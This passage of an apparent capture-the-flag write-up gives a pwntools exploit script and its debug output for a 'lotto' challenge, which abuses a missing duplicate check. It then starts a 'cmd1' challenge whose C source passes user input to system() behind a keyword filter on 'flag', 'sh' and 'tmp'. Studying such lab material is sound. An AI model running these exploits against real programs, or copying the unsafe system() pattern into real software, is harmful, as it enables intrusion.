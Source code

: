 payload:

```python
from pwn import *

context.log_level='debug'

p = process('/home/lotto/lotto')

while(True):
        p.recvuntil('Exit\n')
        p.sendline('1')
        p.recvuntil(' : ')
        p.sendline('\x01\x01\x01\x01\x01\x01')
        print p.recvuntil('bad luck.')
```

result:

```
[+] Starting local process '/home/lotto/lotto': Done
[DEBUG] Received 0x2e bytes:
    '- Select Menu -\n'
    '1. Play Lotto\n'
    '2. Help\n'
    '3. Exit\n'
[DEBUG] Sent 0x2 bytes:
    '1\n'
[DEBUG] Received 0x1c bytes:
    'Submit your 6 lotto bytes : '
[DEBUG] Sent 0x7 bytes:
    00000000  01 01 01 01  01 01 0a                               │····│···│
    00000007
[DEBUG] Received 0xd bytes:
    'Lotto Start!\n'
[DEBUG] Received 0x37 bytes:
    'sorry mom... I FORGOT to check duplicate numbers... :(\n'
[DEBUG] Received 0x2e bytes:
    '- Select Menu -\n'
    '1. Play Lotto\n'
    '2. Help\n'
    '3. Exit\n'
```

## 13. cmd1
```c
#include <stdio.h>
#include <string.h>

int filter(char* cmd){
        int r=0;
        r += strstr(cmd, "flag")!=0;
        r += strstr(cmd, "sh")!=0;
        r += strstr(cmd, "tmp")!=0;
        return r;
}
int main(int argc, char* argv[], char** envp){
        putenv("PATH=/thankyouverymuch");
        if(filter(argv[1])) return 0;
        system( argv[1] );
        return 0;
}
```
